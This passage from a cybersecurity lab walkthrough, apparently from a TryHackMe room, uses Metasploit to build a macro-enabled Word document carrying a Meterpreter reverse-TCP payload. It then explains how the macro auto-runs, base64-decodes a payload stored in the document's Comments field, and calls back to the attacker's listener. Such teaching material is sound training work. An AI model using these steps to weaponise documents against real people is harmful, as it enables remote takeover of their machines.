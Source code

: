 You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal



![](gitbook/cybersecurity/images/Pasted%252520image%25252020241210205337.png)

Nice, now we have our malicious macro file. 

## The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created by `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro. **Note:** The AttackBox doesn’t have MS Office installed, so for this section you only have to read along.  

1. `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2. `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3. `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

![Example macro code with functions and subroutines](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859885481.png)  

The **Comments** field is shown in the screenshot below. It is close to 100,000 characters in our case.

![The Comments field in an MS Office document](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859926077.png)  

If you copy it and save it to a text file, you can convert it to its original executable format using `base64` as shown below. You can notice the size of the files.

```shell-session
root@AttackBox:~# base64 -d payload-base64.txt > payload.exe
root@attackbox:~# ls -lh
-rw-r--r--. 1 root root 97K payload-base64.txt
-rw-r--r--. 1 root root 73K payload.exe
```
